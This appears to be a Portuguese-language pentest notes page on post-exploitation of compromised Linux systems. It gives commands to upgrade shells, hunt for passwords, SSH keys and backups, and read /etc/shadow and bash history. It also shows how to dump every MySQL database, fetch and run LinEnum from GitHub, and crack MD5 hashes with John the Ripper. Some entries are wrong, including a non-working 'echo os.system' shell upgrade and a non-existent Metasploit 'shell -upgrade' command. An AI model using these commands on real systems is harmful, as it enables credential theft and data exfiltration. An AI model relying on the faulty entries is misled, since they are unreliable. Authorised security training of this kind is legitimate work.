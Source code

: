 
# Post exploitation

A fase de Post Exploitation em um Pentest envolve a exploração e uso do acesso obtido para obter mais informações, manter persistência e escalar privilégios dentro do sistema comprometido. O objetivo principal é coletar dados valiosos, identificar outras vulnerabilidades e preparar a fase de exfiltração de informações.

---

### Upgrade de Shell

Após obter uma shell básica, pode ser necessário convertê-la em uma shell interativa com mais funcionalidades, como suporte a comandos interativos e atalhos. Isso pode ser feito com:

- Python: `python -c 'import pty; pty.spawn("/bin/bash")'`

- Bash: `echo os.system('/bin/bash')`

- Socat: Para abrir uma shell reversa interativa.

---

### Spawnar uma Shell

Quando o atacante obtém acesso a um sistema, pode ser necessário spawnar uma shell para ganhar um ambiente mais funcional. Métodos comuns incluem:

- Usar `python -c 'import pty; pty.spawn("/bin/bash")'`

- Criar um processo em background (`CTRL+Z`) e reativá-lo com `stty raw -echo; fg`

- Usar Metasploit para estabilizar a shell (`shell -upgrade`)

---

### Buscar por Arquivos

Uma das primeiras ações é procurar por arquivos sensíveis que possam conter informações importantes, como credenciais, chaves SSH, ou configurações críticas.

- Comandos úteis:
  - `find / -type f -name "*.conf" 2>/dev/null`
  
  - `find / -type f -iname "*password*" 2>/dev/null`
  
  - `grep -r "password" /home/ 2>/dev/null`

---

### Buscar Credenciais

Senhas podem estar armazenadas em arquivos de configuração, logs, histórico de comandos ou mesmo na memória do sistema.

- Locais comuns para encontrar credenciais:
  - `/etc/shadow` (senhas de usuários do Linux)
  
  - `~/.bash_history`
  
  - Arquivos de configuração de banco de dados (`wp-config.php`, `my.cnf`)
  
  - Ferramentas como `strings` e `grep` para extrair credenciais de arquivos

---

### mysqldump

Se houver acesso ao banco de dados MySQL, é possível extrair informações sensíveis, incluindo senhas e dados de clientes.

- Comando para dump completo do banco:
    ~~~bash
    mysqldump -u root -p --all-databases > backup.sql
    ~~~

- Para dump de uma tabela específica:
    ~~~bash
    mysqldump -u usuario -p database tabela > tabela.sql
    ~~~

---

### Informações dos Usuários

A obtenção de informações dos usuários permite identificar potenciais alvos para escalonamento de privilégios.

- Comandos úteis para listar usuários e grupos:
  - `cat /etc/passwd`
  
  - `cat /etc/group`
  
  - `whoami && id`
  
  - `last` (ver histórico de logins)
  
  - `w` ou `who` (ver usuários logados)

---

### LinEnum Script

O LinEnum é um script usado para enumeração de informações do sistema e descoberta de possíveis vetores de escalonamento de privilégios.

- Baixar e executar o LinEnum:
    ~~~bash
    wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    chmod +x LinEnum.sh
    ./LinEnum.sh
    ~~~

- Ele verifica permissões erradas, arquivos com SUID, configurações de sudoers, versões vulneráveis do kernel, entre outros.

---

### Pasta `/var`

O diretório /var pode conter informações valiosas para pós-exploração.

- Locais de interesse:
  - `/var/log/`: Logs do sistema e de aplicativos
  
  - `/var/backups/`: Possíveis backups antigos contendo credenciais
  
  - `/var/www/`: Arquivos de aplicações web, incluindo bancos de dados e configurações

---

### Arquivos de Backups

Backups podem conter versões antigas de arquivos críticos, como credenciais ou configurações expostas.

- Procurar arquivos de backup:
    ~~~bash
    find / -type f \( -iname "*.bak" -o -iname "*.backup" -o -iname "*.old" \) 2>/dev/null
    ~~~

---

### Tipos de Criptografia Hash

Hashing é um método de proteção de senhas e outros dados sensíveis. Alguns algoritmos comuns incluem:

- MD5 (obsoleto e facilmente quebrável)

- SHA-1 (considerado fraco)

- HA-256/SHA-512 (mais seguros)

- bcrypt e PBKDF2 (melhores para senhas devido ao fator de custo)

- NTLM (usado em sistemas Windows)

- LM Hash (antigo e vulnerável em Windows)

---

### John (Script para Quebrar Hashes)

O John the Ripper é uma ferramenta para quebrar senhas por meio de ataques de força bruta e dicionário.

- Crackear um hash MD5 armazenado em um arquivo:
    ~~~bash
    john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    ~~~

- Ver senhas encontradas:
    ~~~bash
    john --show hash.txt
    ~~~

- Usar um modo automático para diferentes formatos:
    ~~~bash
    john hash.txt --format=auto
    ~~~

---